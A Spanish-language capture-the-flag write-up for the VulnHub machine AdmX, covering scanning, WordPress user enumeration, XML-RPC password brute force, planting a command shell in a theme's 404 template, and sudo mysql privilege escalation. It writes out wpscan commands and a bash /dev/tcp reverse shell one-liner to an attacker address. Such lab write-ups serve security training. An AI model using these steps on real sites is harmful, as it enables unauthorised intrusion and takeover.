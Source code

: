 ```yaml
---
title: AdmX
draft: 
tags:
---
```


#ctf-machine #vulnhub #easy-machine #linux  [VulnhubLink](https://download.vulnhub.com/admx/AdmX_new.7z)

## Enumeración inicial
Como no conocemos la dirección IPv4 de la máquina víctima, hacemos un escaneo ARP con `arpscan` para identificarla:
![[Pasted image 20240909144339.png]]

Como vemos, la máquina objetiva es la "192.168.159.154", ya que su OUI es "00:0c" correspondiente a las máquinas que se importan en VMWare.

Lanzamos una traza ICMP con `ping` y como vemos su TTL es 64 por lo que probablemente se trate de una máquina Linux, ya que suelen tener este valor de TTL:
![[Pasted image 20240909144531.png]]

### Nmap
Hacemos un primer escaneo con `nmap` para identificar los puertos TCP abiertos:
![[Pasted image 20240909144732.png]]

Como vemos, solo hay un puerto abierto, el puerto 80. 

Hacemos un segundo escaneo para detectar la versión y servicio que corren para este puerto:
![[Pasted image 20240909144851.png]]

Como vemos, se trata de una máquina Linux Ubuntu. Y está ejecutando el servicio de Apache.

Hacemos un tercer escaneo para identificar algunos directorios web:
![[Pasted image 20240909145115.png]]

Como vemos se trate de un WordPress.


## Enumeración web
Si accedemos a la web, vemos la página por defecto de Apache:
![[Pasted image 20240909145253.png]]

Si utilizamos `gobuster` para buscar directorios, encontramos lo siguiente:
![[Pasted image 20240909150047.png]]

Como vemos aparece el directorio `/wordpress` encontrado anteriormente con `nmap` además de un directorio llamado `/tools`.

Si ejecutamos la herramienta `wpscan`, vemos que el archivo `xmlrpc.php` está activo:
```bash
wpscan --url http://192.168.159.154/wordpress/ --api-token XXXXXXXXXXXXXXXXXXXXXXXX --plugins-detection aggressive
```
![[Pasted image 20240909150644.png]]

Podemos hacer un segundo escaneo con `wpscan` para encontrar usuarios válidos y probar de hacer fuerza bruta de credenciales:
```bash
wpscan --url http://192.168.159.154/wordpress/ --api-token XXXX --enumerate u
```
![[Pasted image 20240909152655.png]]

Como vemos, hay un usuario válido por lo que podemos utilizar el archivo `xmlrpc.php` para hacer fuerza bruta de la contraseña.
![[Pasted image 20240909155117.png]]

Como vemos la contraseña es "adam14" para el usuario "admin" por lo que podemos obtener acceso al panel de administrador mediante `/wordpress/wp-login.php`:
![[Pasted image 20240909161944.png]]

Por lo que accedemos al "Theme Editor", seleccionamos el "404 template":
![[Pasted image 20240909162015.png]]

Y le añadimos el siguiente código al tema "Twenty Nineteen":
![[Pasted image 20240909162115.png]]

Por lo que lo activamos en el panel de "Themes":
![[Pasted image 20240909163430.png]]

Por lo que una vez activo, únicamente accedemos a una página no existente y utilizamos el parámetro "cmd" para ejecutar comandos.
![[Pasted image 20240909163815.png]]

Por lo que si ejecutamos el siguiente comando nos podemos entablar una *reverse shell*:
```bash
bash -c "bash -i >& /dev/tcp/192.168.159.131/443 0>&1"
```

Siempre y cuando nos pongamos en escucha con `nc` por el puerto 443:
![[Pasted image 20240909171125.png]]

Por lo que hacemos el tratamiento de la TTY:
![[Pasted image 20240909171211.png]]![[Pasted image 20240909171241.png]]

## Escalada de privilegios
Si mostramos los usuarios disponibles vemos que solo hay 2:
![[Pasted image 20240909172115.png]]

Por lo que si intentamos migrar al usuario "wpadmin" con la contraseña que ya teníamos, obtenemos acceso:
![[Pasted image 20240909172205.png]]

Por lo que podemos visualizar la primera *flag* en `/home/wpadmin/`:
![[Pasted image 20240909172237.png]]

Si mostramos los permisos a nivel de *sudoers* del usuario "wpadmin", vemos el siguiente:
![[Pasted image 20240909172354.png]]

Por lo que si ejecutamos el comando y utilizamos la utilidad de `mysql` que permite ejecutar comandos de *shell*, obtenemos una "bash" como *root*:
![[Pasted image 20240909172951.png]]

Finalmente, accedemos al directorio `/root` y visualizamos la *flag*:
![[Pasted image 20240909173025.png]]


___
#xmlrpc #wordpress #web-enumeration #password-brute-force #abusing-sudoers 
___